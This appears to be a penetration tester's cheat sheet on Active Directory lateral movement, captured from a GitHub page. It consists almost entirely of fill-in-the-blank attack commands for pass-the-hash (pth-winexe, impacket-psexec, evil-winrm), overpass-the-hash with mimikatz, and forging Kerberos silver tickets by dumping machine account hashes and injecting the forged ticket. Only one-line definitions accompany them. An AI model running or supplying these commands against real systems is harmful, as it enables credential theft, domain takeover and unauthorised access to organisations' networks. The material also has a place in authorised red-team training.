 ### Active Directory Lateral Movement
#### Pass the Hash
-> Allows an attacker to authenticate to a remote system or service via a user's NTLM hash
```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:<hash_ntlm> //<IP> cmd
```

-> Remote Access - impacket-psexec  
```
impacket-psexec '<domain>/<user>'@<IP> -hashes ':<hash>'
impacket-psexec '<domain>/<user>'@<IP>
```

-> Remote Access + evil-winrm  
```
evil-winrm -i <IP> -u <user> -H <hash>
```

#### Over Pass the Hash
-> Allows an attacker to abuse an NTLM user hash to obtain a full Kerberos ticket granting ticket (TGT) or service ticket, which grants us access to another machine or service as that user

```
mimikatz.exe "sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe" "exit"
```

-> Command execution with psexec  
```
.\PsExec.exe \\<hostname> cmd.exe
```

#### Silver Ticket - Pass the Ticket
-> It is a persistence and elevation of privilege technique in which a TGS is forged to gain access to a service in an application.

-> Get SID
```
GetDomainsid (PowerView)
```
or  
```
whoami /user
```
-> Get Machine Account Hash
```
Invoke-Mimikatz '"lsadump::lsa /patch"' -ComputerName <hostname_dc>
```
-> Exploitation mimikatz.exe
```
kerberos::purge
kerberos::list
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /target:<hostname.domain> /service:HTTP /rc4:<ervice_account_password_hash> /ptt
```
or
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain> /sid:<domainsid> /target:<dc>.<domain> /service:HOST /rc4:<machine_account_hash> /user:Administrator /ptt"'
kerberos::list
```
